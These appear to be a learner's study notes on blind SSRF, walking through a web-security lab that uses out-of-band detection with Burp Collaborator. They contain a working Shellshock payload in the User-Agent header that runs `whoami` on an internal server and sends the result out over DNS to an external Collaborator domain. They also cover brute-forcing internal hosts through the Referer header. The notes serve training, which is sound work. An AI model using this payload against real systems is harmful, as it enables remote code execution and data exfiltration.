 - this exploit works because it first validate allowed domain and request trigger `open redirect` to make request to desired domain.

# blind SSRF

- it arise when application can be induced to issue a back-end HTTP request to supplied URL, but the Request from the Back-end request is not returned to front-end application.
- it is harder to exploit but it can lead to full `RCE`.

## Impact

- impact is lower than fully informed SSRF because of their one-way nature. but in some situation it exploited to achieve `RCE`

## How to Find and Exploit Blind SSRF

- the most of the way to detect Blind SSRF is Using `Out of band (OAST)` technique. that trigger HTTP request to external system That we control.
- we can also use `Burp Collaborator`.
- simply identifying Blind SSRF trigger Out-of-band HTTP request doesn't provide route to exploitability. since we can not view the response from the back-end request.
- some Blind SSRF can be found in `Referer:`header in the http Request.

## Blind SSRF with ShellShock exploitation.

- In [Burp Suite Professional](https://portswigger.net/burp/pro), install the "Collaborator Everywhere" extension from the BApp Store.
- Add the domain of the lab to Burp Suite's [target scope](https://portswigger.net/burp/documentation/desktop/tools/target/scope), so that Collaborator Everywhere will target it.
- Browse the site.
- Observe that when you load a product page, it triggers an HTTP interaction with Burp Collaborator, via the Referer header.
- Observe that the HTTP interaction contains your User-Agent string within the HTTP request.
- Send the request to the product page to Burp Intruder.
- Use `Burp Collaborator client` to generate a unique Burp Collaborator payload, and place this into the following Shellshock payload: `() { :; }; /usr/bin/nslookup $(whoami).YOUR-SUBDOMAIN-HERE.burpcollaborator.net`
- Replace the User-Agent string in the Burp Intruder request with the Shellshock payload containing your Collaborator domain.
- change the `Referer:` header to `http://192.168.0.221` here `SSRF` vulnerability is in `Referer:` header and there is some internal system that doesn't directly to outer network.
- we request to that internal systems `http://internal-ip` and brute force it to find which system is active and use `shell shock` vulnerability to exploit it to `RCE`.
- go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously. You should see a DNS interaction that was initiated by the back-end system that was hit by the successful blind `SSRF attack`. The name of the OS user should appear within the DNS subdomain.

## [research Paper : cracking the lens: Remote client exploits](https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface#remoteclient)
